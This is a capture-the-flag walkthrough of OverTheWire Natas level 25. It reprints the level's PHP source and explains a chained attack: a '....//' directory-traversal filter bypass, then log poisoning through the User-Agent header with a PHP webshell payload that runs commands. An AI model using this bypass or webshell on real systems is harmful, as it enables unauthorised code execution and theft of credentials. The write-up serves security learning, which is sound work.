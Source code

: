 # Natas
> Level : Natas Level 25<br/>
> Solved : 28th July 2021<br/>
> Remarks : Local File Inclusion + code Execution<br/>
<br/>

## Quest
We are presented with a webpage containing a badass Quote.

![](./images/Level25.png)

Backend Code for this page

```php
<?php
function setLanguage(){
    /* language setup */
    if(array_key_exists("lang",$_REQUEST))
        if(safeinclude("language/" . $_REQUEST["lang"] ))
            return 1;
    safeinclude("language/en"); 
}

function safeinclude($filename){
    // check for directory traversal
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    // dont let ppl steal our passwords
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    // add more checks...
    if (file_exists($filename)) { 
        include($filename);
        return 1;
    }
    return 0;
}
    
function listFiles($path){
    $listoffiles=array();
    if ($handle = opendir($path))
        while (false !== ($file = readdir($handle)))
            if ($file != "." && $file != "..")
                $listoffiles[]=$file;
    
    closedir($handle);
    return $listoffiles;
} 

function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
?>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
</select>
</form>
</div>

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
```
<br/>

## Solution

Lets shift focus from awesomeness of the presented quote to finding password for the next Level.

Below is the Breakdown of relevant functions in Backend code.

The `setLanguage()` function

  - This function checks if `lang` parameter exists in our request and then includes that file using `safeinclude()`.<br/>
  - If not present, default file to include is `language/en`<br/>
        
The `safeinclude()` function

  - checks for Directory Traversal attacks, it finds and replaces `../` with empty string.<br/>
  - It also exits, when attempt is made to retrieve password file for next level (`/etc/natas_webpass/natas26`)<br/>
  - if above two checks are passed, it includes the file<br/>

The `logRequest()` function

  - This function logs error when `safeinclude` functions finds attack attempts<br/>
  - Notice that it directly embeds the clients `USER_AGENT` string in the log file. This can come <em>handy</em> later.<br/>
  - We have path of log file as `/var/www/natas/natas25/logs/natas25_<SESSIONID>.log`<br/>


Lets get to work now.

Firstly tried with the usual directory traversals payloads and got no luck (this was somewhat expected)

![](./images/Level25_solution.png)

After a while, turned to local machine to understand various PHP functions used in Backend code.

First lets see how `strstr` function works. `strstr` function finds first occurence of a string and returns the whole string starting from that occurence

```php
echo strstr('hello/../../../etc/passwd/../', '../');   # Output : ../../../etc/passwd/../
```

Next, lets see `str_replace` . It Replaces all occurrences of the search string with the replacement string.

```php
echo str_replace('../', '', '../../../../etc/passwd');  # Output : etc/passwd
```
<br/>

Then i looked at if somehow i can bypass these functions, and it turns out that yes, it could be done.

See Below session

```php
# I tried different things to bypass str_relace functions and finally came up with this payload
echo str_replace('../', '', '....//....//....//....//etc/passwd');  # Output : ../../../../etc/passwd
```

So now, after `str_replace()` function runs, we can still slip in `../` characters and do Directory Traversal attack.

<br/>

Below, we use this to see a file that we know exists -> `/var/www/natas/natas25/logs/natas25_<SESSIONID>.log`

![](./images/Level25.1_solution.png)

Above we have successfully conducted Directory Traversal attack, but still can't display password containing file `/etc/natas_webpass/natas26` because of the code logic.

Since we can include the log file , lets poison it with our webshell using the `User-Agent` header <em>handy!</em> .

Our Webshell payload:
```php
<?php echo '<pre>' . shell_exec($_GET[ 'cmd']) . '</pre>';?>
```

We can see it works and we have command execution! (happiness 👻)

![](./images/Level25.2_solution.png)

<br/>
Now that we have command execution, lets reveal the password for next Level

![](./images/Level25.3_solution.png)

<br/>
<span id=green>**Takeaway**</span><br/>

  - Read documentation and tested the PHP function [strstr](https://www.php.net/manual/en/function.strstr.php) and [str_replace](https://www.php.net/manual/en/function.str-replace.php)<br/>
  - Log File poisoning use case<br/>
  - Chaining multiple vulnerabilities = Win<br/>

<br/>
This one was satisfying to do 😆

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
